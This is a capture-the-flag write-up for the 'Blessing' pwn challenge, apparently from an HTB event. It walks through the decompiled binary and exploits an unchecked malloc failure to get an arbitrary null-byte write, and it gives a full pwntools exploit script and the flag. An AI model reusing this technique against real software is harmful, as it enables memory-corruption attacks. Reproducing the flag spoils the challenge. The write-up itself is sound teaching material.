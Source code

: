 # Cyber Apocalypse CTF 2025: Tales from Eldoria

## Blessing
> In the realm of Eldoria, where warriors roam, the Dragon's Heart they seek, from bytes to byte's home. Through exploits and tricks, they boldly dare, to conquer Eldoria, with skill and flair.
 
- **Category**: Pwn 
- **Difficulty**: Very Easy
- **Author**: Cioppo

## Writeup

Let's look at the binary protections
```bash
> checksec blessing
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
```
we have full protection!

Let's look at the decompiled main
```C
int __fastcall main(int argc, const char **argv, const char **envp)
{
  size_t size; // [rsp+8h] [rbp-28h] BYREF
  unsigned __int64 i; // [rsp+10h] [rbp-20h]
  _QWORD *v6; // [rsp+18h] [rbp-18h]
  void *buf; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  banner();
  size = 0LL;
  v6 = malloc(196608uLL);
  *v6 = 1LL;
  printstr(
    "In the ancient realm of Eldoria, a roaming bard grants you good luck and offers you a gift!\n"
    "\n"
    "Please accept this: ");
  printf("%p", v6);
  sleep(1u);
  for ( i = 0LL; i <= 0xD; ++i )
  {
    printf("\b \b");
    usleep(0xEA60u);
  }
  puts("\n");
  printf(
    "%s[%sBard%s]: Now, I want something in return...\n\nHow about a song?\n\nGive me the song's length: ",
    "\x1B[1;34m",
    "\x1B[1;32m",
    "\x1B[1;34m");
  __isoc99_scanf("%lu", &size);
  buf = malloc(size);
  printf("\n%s[%sBard%s]: Excellent! Now tell me the song: ", "\x1B[1;34m", "\x1B[1;32m", "\x1B[1;34m");
  read(0, buf, size);
  *(_QWORD *)((char *)buf + size - 1) = 0LL;
  write(1, buf, size);
  if ( *v6 )
    printf("\n%s[%sBard%s]: Your song was not as good as expected...\n\n", "\x1B[1;31m", "\x1B[1;32m", "\x1B[1;31m");
  else
    read_flag();
  return 0;
}
```
The program makes a big ``malloc`` and gives us its address, it then asks us for a size calls ``malloc`` with that number, after that it writes whatever we want on the second buffer.
Our objective is to somehow change ``v6[0]`` to something other than ``1``.

Let's look at the malloc man page:
```
DESCRIPTION
   malloc()
       The  malloc()  function  allocates size bytes and returns a pointer to the allocated memory.
       The memory is not initialized.  If size is 0, then malloc() returns a unique pointer value 
       that can later be successfully passed to free().  (See "Nonportable behavior" for portability issues.)
    ...
RETURN VALUE
       The malloc(), calloc(), realloc(), and reallocarray() functions return a pointer to the 
       allocated memory, which is suitably aligned for any type that fits into the requested size 
       or less.  On error, these functions return NULL and set errno.  Attempting to allocate 
       more than PTRDIFF_MAX bytes is considered an error, as an object  that  large  could  
       cause later pointer subtraction to overflow.
```
we can see that, when the size which needs to be allocated is big, malloc returns NULL (0), we can use this to our advantage!

Let's look at these intructions
```C
  __isoc99_scanf("%lu", &size);
  buf = malloc(size);
  // ...
  *(_QWORD *)((char *)buf + size - 1) = 0LL;
```
the last one puts byte ``0x00`` at the end of the buffer
```C
  buf[size-1] = 0LL
```
but we also know that, when malloc fails, it returns 0. We can use this as an arbitrary write:
```C
  (char*)size = 0LL
```

Knowing this, we can just send the address of the fist malloc ``+1`` and that instruction will write 0 to ``v6[0]`` for us!

So let's create a simple script for this:
```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("blessing_patched")
libc = ELF("glibc/libc.so.6")
ld = ELF("glibc/ld-linux-x86-64.so.2")

context.binary = exe
# context.log_level = "debug" this prints a lot of trash!

global r
def conn():
    global r
    if args.LOCAL:
        r = process([exe.path])
    elif args.GDB:
        r = gdb.debug([exe.path])
    else:
        r = remote("addr",1337)

    return r

def main():
    conn()

    # Receive the first malloc address
    r.recvuntil(b": ")
    addr = int(r.recvuntil(b"\b", True).decode(), 16)
    r.success(f"Addr: {hex(addr)}")

    # Send that address +1
    r.sendlineafter(b": ", str(addr+1).encode())
    r.sendlineafter(b": ", b"bruh")

    # Win!
    r.interactive()

if __name__ == "__main__":
    main()
```

> HTB{3v3ryth1ng_l00k5_345y_w1th_l34k5_bbd626a96204fdc94d742b10c5e5c432}